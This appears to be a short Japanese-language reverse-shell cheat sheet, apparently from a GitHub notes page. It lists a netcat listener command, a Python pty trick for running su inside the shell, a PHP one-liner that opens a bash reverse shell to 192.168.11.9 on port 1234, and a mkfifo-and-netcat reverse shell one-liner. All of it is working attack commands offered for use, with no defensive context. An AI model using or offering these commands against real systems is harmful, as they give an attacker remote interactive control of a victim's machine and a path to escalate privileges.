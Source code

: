 # リバースシェル

## メモ

### listen

```shell
nc -lvp <port>
```

### リバースシェルで su を実行できるようにする魔法

```shell
python -c 'import pty; pty.spawn("/bin/bash")'
su - <user>
```

## 言語別

### PHP

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.11.9/1234 0>&1'") ?>
```

### shell
```shell
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <ip> <port> > /tmp/f
```
